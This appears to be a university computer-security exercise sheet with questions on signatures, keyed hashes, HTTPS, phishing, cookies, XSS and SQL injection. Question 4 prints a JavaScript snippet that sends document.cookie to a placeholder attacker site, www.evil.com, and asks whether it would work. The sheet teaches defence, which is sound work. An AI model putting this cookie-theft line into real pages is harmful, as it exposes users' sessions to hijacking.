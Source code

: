 # Exercises sheet 3

**Correction after reading week.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?



2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.



3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.



4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful?



5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.



6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not?



7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.


8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.


9. Explain why input validation mitigates the risks of SQL injection attacks.


